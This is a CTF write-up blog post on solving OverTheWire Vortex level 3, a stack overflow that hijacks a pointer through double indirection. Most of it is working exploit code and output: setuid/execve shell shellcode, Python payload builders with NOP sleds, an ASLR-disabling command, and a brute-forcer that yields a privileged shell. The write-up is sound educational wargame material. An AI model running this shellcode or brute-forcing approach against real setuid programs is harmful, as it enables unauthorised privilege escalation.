 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 3"
---
```


![Logo](/assets/images/vortex3.png)

## Context

As mentioned in the description, [level 3](http://overthewire.org/wargames/vortex/vortex3.html) is a little bit tricky. We see that we'll have to place the shellcode in the _`buf`_ variable using _`strcpy`_ and the shellcode will require a setuid (LEVEL4_UID), since bash drops effective privileges.

## Test a setuid + execve shellcode
I've taken a shellcode that does this from here, and test it from a wrapper function:
/* 32 bytes setuid(0) + execve("/bin/sh",["/bin/sh",NULL]); */
char shellcode[] =
  "\x6a\x17"              // push $0x17
  "\x58"                  // pop  %eax
  "\x31\xdb"              // xor  %ebx, %ebx
  "\xcd\x80"              // int  $0x80
 
  "\x31\xd2"              // xor  %edx, %edx  
  "\x6a\x0b"              // push $0xb
  "\x58"                  // pop  %eax
  "\x52"                  // push %edx
  "\x68\x2f\x2f\x73\x68"  // push $0x68732f2f
  "\x68\x2f\x62\x69\x6e"  // push $0x6e69622f
  "\x89\xe3"              // mov  %esp, %ebx
  "\x52"                  // push %edx
  "\x53"                  // push %ebx
  "\x89\xe1"              // mov  %esp, %ecx
  "\xcd\x80";             // int  $0x80
 
int main() {
 int (*func)();
 func = (int (*)()) shellcode;
 (int)(*func)();
 
 return 0;
}
And to compile and test: 
?
1
2
3
# gcc test_shell3.c -o test_shell
# ./test_shell 
sh-4.1# 

Bypass StackGuard
The article from [2] describes a bypass method for a situation similar with our code. The idea is that by overflowing buf, we can modify lpp, and with this code ( **lpp = (unsigned long) &buf;) we can place the beginning of the buffer in an address referred to by an address we can control - there's a double indirection.
Let's try to modify the flow with this method, by changing the destructor function, called in the last line of code (exit(0);). To find the address of the destructors:
?
1
2
3
4
5
6
vortex3@melissa:/vortex$ objdump -s -j .dtors vortex3
 
vortex3:     file format elf32-i386
 
Contents of section .dtors:
 804953c ffffffff 00000000                    ........      
As described in [1], the layout of the destructors section is as follows:
0xffffffff <function address> <another function address> ... 0x00000000 
So we will change the address of the first function to be called (0x08049540). We need an address to put in the lpp pointer, and that address to point to 0x08049540:
?
1
2
3
4
5
6
7
8
9
10
11
$ gdb vortex3
(gdb) set disassembly-flavor intel
(gdb) disassemble __do_global_dtors_aux 
Dump of assembler code for function __do_global_dtors_aux:
...
   0x08048360 <+16>: mov    eax,ds:0x8049644
   0x08048365 <+21>: mov    ebx,0x8049540
   0x0804836a <+26>: sub    ebx,0x804953c
...
(gdb) x/x 0x08048366
0x8048366 <__do_global_dtors_aux>: 0x08049540
We find 0x08048366, that points to 08049540 (first destructor function). If we manage to place 0x08048366 in the lpp pointer (by overflowing buf), the double indirection in  **lpp = (unsigned long) &buf; line will add the code in buf variable to be executed as a destructor.

Find lpp offset
We'll build the vortex3 source code locally, with added prints to track lpp value after overflowing buf. To reproduce the environment in the vortex labs, we need to disable ASLR (Address Space Layout Randomization) and compile without stack protector:
?
1
2
3
# echo 0 > /proc/sys/kernel/randomize_va_space
# gcc -fno-stack-protector -U_FORTIFY_SOURCE vortex3.c -o vortex3
#
From a Python wrapper, we'll pass the previous shellcode and watch if we set correctly lpp variable after strcpy: 
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
import sys
 
shellcode = "\x6a\x17\x58\x31\xdb\xcd\x80\x31\xd2\x6a\x0b\x58\x52" + \
        "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53" + \
        "\x89\xe1\xcd\x80"
 
NOP = "\x90"
 
if __name__=="__main__":
    if len(sys.argv) > 1 :
        addr = sys.argv[1]
    else:
        addr = "\x41\x42\x43\x44"
 
    # number of NOP needed to overflow exactly the lpp variable
    # may be different than this one for vortex labs binary 
    print shellcode + NOP * (128-len(shellcode))  + addr
And we see we can control lpp: 
?
1
2
3
# ./vortex3 `python L3.py`
lpp before: 0x804a024
lpp after: 0x44434241
For the vortex3 binary on vortex labs, there will be a difference (of 4 bytes) on the length of NOP sled needed. That's because the position of lpp variable on the stack differs by 4 bytes.
On vortex labs:
?
1
2
3
4
5
6
7
8
9
10
(gdb) disas main
Dump of assembler code for function main:
   0x080483d4 <+0>: push   ebp
   0x080483d5 <+1>: mov    ebp,esp
   0x080483d7 <+3>: and    esp,0xfffffff0
   0x080483da <+6>: sub    esp,0xa0
   0x080483e0 <+12>: mov    DWORD PTR [esp+0x9c],0x804963c
   ...
(gdb) x/x 0x804963c
0x804963c <lp>: 0x08049638
And locally: 
?
1
2
3
4
5
6
7
8
9
10
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048484 <+0>: push   ebp
   0x08048485 <+1>: mov    ebp,esp
   0x08048487 <+3>: and    esp,0xfffffff0
   0x0804848a <+6>: sub    esp,0xa0
   0x08048490 <+12>: mov    DWORD PTR [esp+0x98],0x804a024
   ...
(gdb) x/x 0x804a024
0x804a024 <lp>: 0x0804a020
So, on the vortex labs machine we'll create the python wrapper file in tmp folder, taking into account the NOP sled difference:
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
import sys
 
shellcode = "\x6a\x17\x58\x31\xdb\xcd\x80\x31\xd2\x6a\x0b\x58\x52" + \
        "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53" + \
        "\x89\xe1\xcd\x80"
 
NOP = "\x90"
 
if __name__=="__main__":
    if len(sys.argv) > 1 :
        addr = sys.argv[1]
    else:
        addr = "\x41\x42\x43\x44"
 
    # number of NOP needed to overflow exactly the lpp variable
    # may be different than this one for vortex labs binary 
    print shellcode + NOP * (128-len(shellcode) + 4)  + addr
But, when trying to exploit, we get a segmentation fault: 
?
1
2
$ ./vortex3 `python /tmp/myv3.py`
Segmentation fault
That may be because of the subtle reason mentioned on the level description (ctors/dtors might no longer be writable). (Older solutions present online worked because the level was compiled with another gcc version, and overwriting .dtors as suggested in the reading was possible). Anyway, the author gives the suggestion for solving this: "an intelligent bruteforce".

Python brute-forcer
We will only brute force a small part of the address space (16 bytes), because the first 2 bytes of lpp we already know that must be 0x0804. With the following python wrapper we'll generate payloads and pass them to vortex3 binary until we find a shell.  The p.wait() function stops and wait until the program finish executing (in our case the new shell).
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
import subprocess
 
# shellcode generating  script
script = "/tmp/myv3.py"
 
#found good addr = "\x8c\x92\x04\x08"
 
# Brute force the second part of the address space
for i in range (1, 256):
    for j in range (1, 256):
        addr = "%c%c\x04\x08" % (chr(i), chr (j))
        print "Trying addr: ", "".join('\\x%02x' % ord(c) for c in addr)
         
        # payload = shellcode + addr 
        # payload = `python /tmp/myv3.py "\x41\x42\x43\x44"`
        payload = subprocess.check_output(["python", script, addr])
 
        # pipe = os.popen("cmd", 'r', bufsize)
        p = subprocess.Popen(['/vortex/vortex3', payload])
         
        # block for successful shell
        p.wait()
(Note:  i and j variables go from 1, not from 0, because 0 is the null character and is not accepted in a shell command, and thus not accepted  by the check_output() function which executes a command.)
The result:
?
1
2
3
4
5
6
7
8
9
vortex3@melissa:~$ python /tmp/wrapv3.py
...
Trying addr:  \x8c\x91\x04\x08
Trying addr:  \x8c\x92\x04\x08
$ id
uid=5003(vortex3) gid=5003(vortex3) euid=5004(vortex4) groups=5004(vortex4),5003(vortex3)
$ cat /etc/vortex_pass/vortex4
*******
$
So we got a correct address that, when put into lpp, runs our shellcode -  \x08\x04\x92\x8c.  To understand what happened, we check the address in gdb:
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
$ gdb /vortex/vortex3
(gdb) break main
Breakpoint 1 at 0x80483d7
(gdb) run
Starting program: /vortex/vortex3
 
Breakpoint 1, 0x080483d7 in main ()
(gdb) x/x 0x0804928c
0x804928c: 0x0804962c
(gdb) x/x 0x0804962c
0x804962c <_global_offset_table_>: 0x0804830a
(gdb) x/x 0x0804830a
0x804830a <exit@plt+6>: 0x00001868
(gdb) 
So we've actually overwritten the exit function in the .plt section.
This was a nice exercise, at least:)

The scripts mentioned are available here.

 Reading material:
Overwriting the .dtors section - Juan M. Bello Rivas
Bypassing StackGuard and StackShield
Another solution
Posted by Liviu at 9:50 PM     
Email This
BlogThis!
Share to Twitter
Share to Facebook
Share to Pinterest

Labels: overthewire, vortex, wargame
Reactions: 	
No comments:
Post a Comment
 
Links to this post
Create a Link

Newer Post
